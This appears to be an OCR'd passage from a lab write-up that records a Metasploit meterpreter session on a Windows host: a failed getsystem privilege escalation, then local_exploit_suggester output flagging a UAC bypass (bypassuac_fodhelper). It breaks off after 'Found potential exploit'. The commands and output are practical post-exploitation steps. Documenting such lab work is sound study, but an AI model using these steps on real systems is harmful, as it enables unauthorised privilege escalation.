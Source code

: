 
## Attempt Privilege Escalation (Failed)
```
meterpreter > getsystem
[-] priv_elevate_getsystem: Operation failed: 1346 The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
[-] Named Pipe Impersonation (RPCSS variant)
[-] Named Pipe Impersonation (PrintSpooler variant)
[-] Named Pipe Impersonation (EFSRPC variant - AKA EfsPotato)
```

## Use Exploit Suggester
```bash
meterpreter > background
msf6 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester
msf6 post(multi/recon/local_exploit_suggester) > show options
Module options (post/multi/recon/local_exploit_suggester):

   Name          Current Setti  Required  Description
                 ng
   ----          -------------  --------  -----------
   SESSION                      yes       The session to run
                                           this module on
   SHOWDESCRIPT  false          yes       Displays a detaile
   ION                                    d description for
                                          the available expl
                                          oits
msf6 post(multi/recon/local_exploit_suggester) > sessions 

Active sessions
===============

  Id  Name  Type            Information      Connection
  --  ----  ----            -----------      ----------
  1         meterpreter x8  DESKTOP-3UTST7A  10.0.2.4:4444 -
            6/windows       \liang @ DESKTO  > 10.0.2.15:499
                            P-3UTST7A        58 (10.0.2.15)
msf6 post(multi/recon/local_exploit_suggester) > set session 1
msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.0.2.15 - Collecting local exploits for x86/windows...
[*] 10.0.2.15 - 188 exploit checks are being tried...
[+] 10.0.2.15 - exploit/windows/local/bypassuac_fodhelper: The target appears to be vulnerable.
[*] Running check method for exploit 41 / 41
[*] 10.0.2.15 - Valid modules for session 1:
============================

 #   Name                                                           Potentially Vulnerable?  Check Result
 -   ----                                                           -----------------------  ------------
 1   exploit/windows/local/bypassuac_fodhelper                      Yes                      The target appears to be vulnerable.                                                         
 2   exploit/windows/local/adobe_sandbox_adobecollabsync            No                       Cannot reliably check exploitability.   
 .
 .
 .
 .
```
- Found potential exploit: